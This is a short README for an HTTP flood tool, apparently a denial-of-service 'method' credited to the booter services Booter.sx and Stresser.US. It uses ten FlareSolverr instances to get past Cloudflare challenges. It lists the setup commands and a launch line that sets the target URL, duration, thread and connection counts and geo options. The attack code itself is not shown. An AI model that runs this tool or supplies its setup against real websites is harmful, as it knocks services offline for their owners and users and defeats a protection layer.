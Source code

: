 # http-browser
HTTP Browser method using FlareSolverr



sh install.sh

unzip solvers.zip

install the other depedencies as the script asks with 'npm i name'

cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install

python start_solvers.py

run the method 

node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32


Method hacked from Booter.sx, released by Stresser.US - method updated and upgraded to HTTP/2 by forky and WeAreRainBowHAT
